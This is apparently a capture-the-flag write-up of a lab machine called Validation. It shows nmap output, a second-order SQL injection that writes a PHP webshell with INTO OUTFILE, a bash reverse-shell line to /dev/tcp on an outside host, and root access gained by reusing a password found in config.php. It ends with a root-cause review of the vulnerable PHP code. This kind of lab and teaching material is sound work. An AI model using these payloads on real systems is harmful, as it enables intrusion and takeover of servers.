 # Validation

## Information Gathering
Validation
10.10.11.116

Versions
- OpenSSH 8.2p1
- Apache httpd 2.4.48
- PHP/7.4.23

## Scanning
Of course, start with your nmap scan:
```bash
Nmap scan report for 10.10.11.116
Host is up (0.039s latency).
Not shown: 65522 closed tcp ports (reset)
PORT     STATE    SERVICE        VERSION
22/tcp   open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open     http           Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesnt have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open     http           nginx
|_http-title: 403 Forbidden
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http           nginx
|_http-title: 502 Bad Gateway
```


I begin logging all the HTTP headers using BurpSuite. There are two main parameters that stick out: username and country. I manually attempt to perform a SQL injection on country and see an error in the output response. I run sqlmap (even though I do not like sqlmap) to see if I can perhaps dump a database or get a os-shell.

```bash
sqlmap -u "http://10.10.11.116/" --data="username=test&country=Belize" -p "country" --dbs
```

After many different attempts, I do not get anywhere. Whenever I attempt to perform a SQL injection, I always try to think about the payload being used in the query. This is what I **think** the payload looks like:

```php
"SELECT username FROM registration WHERE country='".$country_name."'";
```

```php
"SELECT username FROM registration WHERE country='' UNION SELECT 1-- -'";
```


Doing a bit of research leads me to try and perform a second order SQL injection. Using **country' UNION SELECT 1--** displays a 1 on the page and no error meaning that a 1 is being returned from the result of the sql query.

```php
"SELECT username FROM registration WHERE country='country_name' UNION SELECT 1-- -'"
```

This second order SQLi in addition to the server running PHP allows for writing to a file

```sql
country_name' UNION SELECT "<?php SYSTEM(['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -
```

Which'll look something like:

```php
"SELECT username FROM registration WHERE country='country_name' UNION SELECT "<?php SYSTEM(['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -'"
```

Uploads a webshell for us. You can then catch a reverse shell by using the basic **bash -c "bash -i >& /dev/tcp/10.10.14.15/1337 0>&1"** in your request.

## Privilege Escalation
Because this is a PHP application, I know the application must be making a connection to the database somewhere. In config.php, the following is revealed
```php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

Trying this password for the root account gives us a root shell.

## Understanding Second Order SQLi
In this section, I'll be looking at the code which caused the second order SQLi. This was my first time being exposed to this kind of vulnerability so I would like to perform a root cause analysis. This way, I'll not only be able to detect this type of vulnerability sooner but I'll also be able to avoid the same mistake in my development career.

Doing a bit of [reading](https://www.rapid7.com/blog/post/2016/09/27/sql-injection-attacks/), I gathered this: In a second order inejction attack, malicious user input is saved in a database, escaped, entered as prepared statement or otherwise. If a cleverly crafted value is saved in a database and reused later in an unsafe manner, it could still be used to exploit a vulnerabilityin SQL query security.

Looking at index.php (only the PHP code will suffice):

```php
<?php                                                                                                                 
  require('config.php');                                                                                              
  if ( $_SERVER['REQUEST_METHOD'] == 'POST' ) {          
    $userhash = md5($_POST['username']);                                                                              
    $sql = "INSERT INTO registration (username, userhash, country, regtime) VALUES (?, ?, ?, ?)";                     
    $stmt = $conn->prepare($sql);                                                                                     
    $stmt->bind_param("sssi", $_POST['username'], $userhash , $_POST['country'], time());                             
    if ($stmt->execute()) {;                                                                                          
            setcookie('user', $userhash);                                                                             
            header("Location: /account.php");                                                                         
            exit;                                                                                                     
    }                                                                                                                 
    $sql = "update registration set country = ? where username = ?";                                                  
    $stmt = $conn->prepare($sql);                                                                                     
    $stmt->bind_param("ss", $_POST['country'], $_POST['username']);                                                   
    $stmt->execute();                                                                                                 
    setcookie('user', $userhash);                                                                                     
    header("Location: /account.php");                                                                                 
    exit;                                                                                                             
  }                                                                                                                   
                                                                                                                      
?>
```

**$userhash** is generated by simply performing an MD5 digest on the **username** POST parameter. Then username, userhash, county, and time gets stored into the database. This then sets the user cookie and redirects to /account.php.

At this point the payload **country_name' UNION SELECT 1-- -** is stored into the database.

Looking at account.php:

```php
<?php
if (!isset($_COOKIE['user'])) {
  echo "Please Register!";
  exit;
}

?>

<div class="container">
                <h1 class="text-center m-5">Join the UHC - September Qualifiers</h1>

        </div>
        <section class="bg-dark text-center p-5 mt-4">
                <div class="container p-5">
            <?php 
              include('config.php');
              $user = $_COOKIE['user'];
              $sql = "SELECT username, country FROM registration WHERE userhash = ?";
              $stmt = $conn->prepare($sql);
              $stmt->bind_param("s", $user);
              $stmt->execute();
              
              $result = $stmt->get_result(); // get the mysqli result
              $row = $result->fetch_assoc(); // fetch data   
              echo '<h1 class="text-white">Welcome ' . $row['username'] . '</h1>';
              echo '<h3 class="text-white">Other Players In ' . $row['country'] . '</h3>';
              $sql = "SELECT username FROM registration WHERE country = '" . $row['country'] . "'";
              $result = $conn->query($sql);
              while ($row = $result->fetch_assoc()) {
                echo "<li class='text-white'>" . $row['username'] . "</li>";
              }
?>
                </div>
        </section>
</div>
```

Shows that values from the database are pulled from the **$user** variable which gets its value from the **user** cookie. Remembering back to the error message that was originally returned: *Uncaught Error: Call to a member function fetch_assoc() on bool in
/var/www/html/account.php:33*. Fetching the row from the results causes the error to be returned. 

My hunch is that something in the fetch_assoc() method causes there to be the second order SQLi.

As an aside, I was able to go back and put in the payload **username=d1&country=Bolivia' OR 1=1-- -** and dump all the rows onto the page. 

